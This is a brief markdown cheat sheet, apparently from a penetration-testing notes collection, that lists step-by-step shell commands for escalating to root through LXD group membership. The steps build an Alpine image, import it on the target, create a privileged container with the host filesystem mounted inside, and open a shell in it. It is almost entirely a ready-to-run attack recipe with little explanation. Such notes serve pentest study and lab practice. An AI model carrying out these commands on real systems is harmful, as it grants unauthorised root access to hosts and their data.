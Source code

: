 # LXC-LXD Group

## Source: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

## Steps:

### 1) Attacker: Download Alpine Image

    git clone https://github.com/alpinelinux/docker-alpine

### 2) Attacker: Build Image

    sudo ./build-alpine -a i686

### Transfer to machine for rest of privesc

#### 1) 

    lxc init

#### 2) 

    lxc image list

#### 3) Upload image to target

#### 4) 

    lxc image import <image.tar.gz> --alias myalpine

#### 5) 

    lxc init myalpine jimmy -c security.privileged=true

#### 6) 

    lxc config device add jimmy mydevice disk source=/ path=/mnt/root recursive=true

#### 6) 

    lxc start jimmy

#### 7) 

    lxc exec jimmy /bin/sh

#### 8) GGWP!
